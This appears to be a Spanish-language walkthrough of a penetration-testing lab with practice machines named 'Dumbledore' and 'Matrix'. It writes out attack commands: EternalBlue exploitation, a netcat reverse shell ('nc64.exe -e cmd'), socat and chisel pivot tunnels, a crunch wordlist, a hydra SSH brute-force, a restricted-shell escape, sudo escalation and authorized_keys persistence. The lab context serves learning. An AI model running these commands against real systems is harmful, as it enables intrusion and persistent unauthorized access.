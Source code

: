 ## Dumbledore 
- Vulnerable a enternalBlue. Con el recurso [AutoBlue](https://github.com/d4t4s3c/Win7Blue) ejecutamos el .sh y nos ponemos en escucha por el puerto 443 _`rlwrap nc -nlvp 443`_ . 
- También se puede ganar acceso con "proxychains msfconsole" y con `execute -f chiselWIN.exe client 192.168.100.128:6543 R:9999:socks` mandamos
- Para mandarnos una revshell, vamos en primer lugar a subir nc64.exe al target. Pasos:
```python
$> sudo python3 smbserver.py smbfolder $(pwd) -smb2support # En máquina atacante
$> ./socat TCP-LISTEN:445,fork TCP:10.10.0.128:445 # En máquina Nagini
$> ./socat TCP-LISTEN:445,fork TCP:192.168.50.202:445 # En máquina Aragog
$> dir \\192.168.100.128\smbfolder\ # En Máquina Dumbledore lista recursos.
$> copy \\192.168.100.128\smbFolder\nc64.exe C:\\Windows\nc64.exe # Copiamos nc en Dumbledore
```
- Ahora la idea es entablar una shell interactiva con nc64.exe. 
```shell
$> nc64.exe -e cmd 192.168.50.202 4545 # En Dumbledore
$> rlwrap nc -nlvp 4545 # En ParrotOS
```
De esta forma tenemos una shell completamente interactiva.
- _Command Enum Matrix:_
```shell
$> for /L %a in (1,1,254) do @start /b ping 172.18.0.%a -w 100 -n 2 >nul # Hostdiscovery windows
$> arp -a # Vemos hosts
```
- **PWNED!**

### Pivoting  Dumbledore Tunnel chisel
```shell
$> ./socat TCP-LISTEN:6542,fork TCP:192.168.50.202:1234 # Aragog
$> ./socat TCP-LISTEN:6543,fork TCP:10.10.0.128:6542 # Nagini
$> ./chisel server -reverse -p 1234 # Atacante, seguimos con nuestro server de chisel inicial. Y debemos recibir una nueva conexión pot el port9999
$> chiselWIN.exe client 192.168.100.128:6543 R:9999:socks # Dumbledore, crearmos la conexión al server chisel
# /etc/proxychains.conf 
# Añadimos "socks5 127.0.0.1 9999"
```

## Matrix
- Encontramos algo interesante en el codigo de la WEB del puerto 31337, en el codigo vemos que existe un archivo Cypher.matrix y éste contiene lenguaje "brainfuck"
- En el archivo anterio vemos que nos indica una contraseña pero le falta dos caracteres "k1ll0rXX", con crunch podemos hacer un diccionario para completas la contraseña:
```shell
$> crunch 8 8 -t k1ll0r%@ > passwords
$> crunch 8 8 -t k1ll0r@% >> passwords
# Con esto indicamos que la contraseña tendrá un valor minimo y maximo de 8 caracteres, y % representa a numeros y @ a caracteres minuscula. Existen más como ^ o , etc.
```
- Ahora mediante hidra intentamos entrar por ssh a la máquina:
	- _`proxychains hydra -l guest -P passwords ssh://172.18.0.129 -t 20 2>/dev/null`_ con `-f` para cuando encuentra credenciales.
	- Encontramos guest:k1ll0r7n `proxychains ssh guest@172.18.0.129 bash` indicamos bash al final por que la conexión normal entraría en una retritic bash y así podemos escapar de ella.
	- La escalada es facil `sudo whoami` + `sudo su` con contraseña guest. 
	- Metemos persistencia con authorized_keys
	- **PWNED!**

